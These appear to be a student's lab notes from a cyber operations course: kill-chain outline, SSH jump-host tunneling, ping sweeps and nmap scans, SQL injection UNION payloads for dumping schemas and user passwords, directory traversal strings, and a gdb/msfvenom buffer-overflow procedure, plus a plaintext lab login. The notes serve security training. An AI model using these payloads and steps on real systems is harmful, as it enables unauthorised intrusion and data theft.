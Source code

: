 Network Recon -
Weaponozaton -
Delivery -
Exploitation -
Installation -XX
Command and Control - 
Actin on Objectives -
- ssh -MS /tmp/jump student@10.50.37.37 # multi plexing
- ssh -S /tmp/jump dummy
- ssh -S /tmp/jump -O forward -D 9050 dummy # sets up forward
for i in {1..254}; do (ping -c 1 192.168.28.$i | grep "bytes from" &); done
sudo proxychains nmap -Pn -sT -T4 -p1-10000 ip 2>/dev/null

sudo apt install nikto -y
Network Recon -
Weaponozaton -
Delivery -
Exploitation -
Installation -XX
Command and Control - 
Actin on Objectives -
- ssh -MS /tmp/jump student@10.50.37.30 # multi plexing
- ssh -S /tmp/jump dummy
- ssh -S /tmp/jump -O forward -D 9050 dummy # sets up forward
for i in {1..254}; do (ping -c 1 192.168.28.$i | grep "bytes from" &); done
sudo proxychains nmap -Pn -sT -T4 -p1-10000 ip 2>/dev/null

sudo apt install nikto -y
UNION SELECT table_schema,table_name,column_name FROM information_schema.columns;# -----GOLDEN Statement for sql injecting


# Notes
ip 10.50.24.239
username YOPA-003-M
password Orionpax and no
stack 9
xfreerdp /v:10.50.23.50 /u:student +clipboard +dynamic-resolution +glyph-cache
ssh student@10.50.33.11 -X
sudo apt install nikto -y # install nitko
ssh -MS /tmp/jump student@10.50.24.239
ssh -S /tmp/jump dummy
---
## Links
- (student guide)[https://sec.cybbh.io/public/security/latest/index.html]
- (cctc)[http://10.50.20.250:8000/resources]
- (vta)[https://vta.cybbh.space/horizon/project/instances/]
- (cve)[https://cve.mitre.org/]
- (exploit db)[https://www.exploit-db.com/]
---
## **Quick Find**
1.
---
## **definitons**
- executive summery - non technical just basic info to officer
- techical summary - indepth for peers
## **notes**
- attack model
  1. Reconnaissances - harvest emails, social engenering, passive , active
    - open source intelligence
    - **DOCUMENT SHIT** what, how, out come if error why, how it was fixed
    - collection - info important to misson
    -
  2. Weaponization -
    - using the creds you got from recon
    - using vunribilitys
    - collection - not attack
    - effect - attack
    - **TEST** - make sure that when you run a exploit it will not brake shit
    - plan - document results and what need to be fixed
    -
  3. Delivery
    -
  4. Explotation
    -
  5. Installation
    -
  6. Command and control
    -
  7. Action on objecyives
    -
- post is sending info
- get is reseving info
- head is geting header info and transfer status
- put is used to create and up date like appending
- http code
  - 10X == Informational
  - 2XX == Success
  - 30X == Redirection
  - 4XX == Client Error
  - 5XX == Server Error
- http is the frame css the design js is the functanaity
- cross site sripting the procces of injecting javacode in to a ligit site that runs js on users browser
- cross site scripting the Unsanitized GET, POST, and PUT methods allow JS to be placed on websites
- two types of XSS
  - refective not perstant
  - stored persistant
- when attacking a file look up or pass though prompt ../../../../../file/name
- SQL is a bitch and pickie with its syntex
- data base and scema are the same
- select and union are most important
- dont look at defult schemas
  - information_schema
  - mysql
  - performance_scemma
  - steps
   1. find what works with options' or 1='1
   2. find colloms with otions that worked; UNION SELECT 1,2,3,4,5;#
   3. ********UNION SELECT table_schema,table_name,column_name FROM information_schema.columns;#  fill in the info fro left to right********
   4. Audi' UNION SELECT id,2,name,pass,5 FROM session.user;# craft new gold statment
## **code**
- multiplexing tunneling
  - M multiplex
  - S where we save
  - O uses forward and cancel
- nitko -h ip or web address
- SQL
  - SHOW DATABASES; # shows database
  - USE session; # like cd
  - SELECT * FROM session; shows all items in the data base
  - select * from session.car # gets info from the item in that database in this case car
  - select * from session.Tire UNION select name,type,cost,color from session.car;
  - ' OR 1='1 select * from users where user = '' OR 1 = '1'
  - # and -- comment
  - @@ version # give verson
  - UNION SELECT 1,2,3,4,5;#
  - UNION select <column>,<column>,<column> from <database>.<table>
## **how to use**
- ssh -MS /file/location creds@ip
- ssh -S same/file something
- ssh -S /same/file -O forward -D 9050 || -L port:ip:port dummy
- for i in {1...254}; do (ping -c 1 ip.$i | grep "bytes from" &); done
- proxychains sudo nmap -Pn -T4 -sT -p1-10000 ip 2>/dev/null
- proxychains sudo nmap -Pn -T4 -sT -p 80,8080 ip --script http-enum.nse|smb-os-discovery.nse  2>/dev/null
## **examples**
- ssh -MS /tmp/jump student@10.50.24.239 # multi plexing
- ssh -S /tmp/jump dummy
- ssh -S /tmp/jump -O forward -D 9050 dummy # sets up forward
- ssh -S /tmp/jump -O cancel -D 9050 dummy # ends forward
- ssh -S /tmp/jump -O forward -L 3333:192.168.28.111:2222 dummy
- ssh -S /tmp/jump -O cancel -L 3333:192.168.28.111:2222 dummy
## scan script
- for i in {96..126}; do (ping -c 1 192.168.28.$i | grep "bytes from" &); done
## scans that are useful
- proxychains sudo nmap -Pn -T4 -sT -p1-10000 192.168.28.111 2>/dev/null
- proxychains sudo nmap -Pn -T4 -sT -p 80,8080 192.168.28.111 --script http-enum.nse|smb-os-discovery.nse  2>/dev/null
https://webbreacher.files.wordpress.com/2018/07/data-collection3.png?w=1136
cve.mitre.orgcve.mitre.org
CVE -  CVE
The mission of the CVE® Program is to identify, define, and catalog publicly disclosed cybersecurity vulnerabilities.
  
  
  
  buff
  find overflow valye
  find eip offset 
  env - gdb func (low quality gdb)
  remove env vars
  (show env ---- unset "var")
  run func
  overflow manually
  info proc map
  find /b 0xf7de1000,0xf7ffe000,0xff,0xe4
        (^is line after heap)(^ is line before stack)
  
 msfvenom -p linux/x86/exec CMD="whoami" -b "\x00" -f python
copy shell code 
  sudo ./func <<< $(python buff.py)
      if root 
      change the whoami to command you want to run
               
get flag
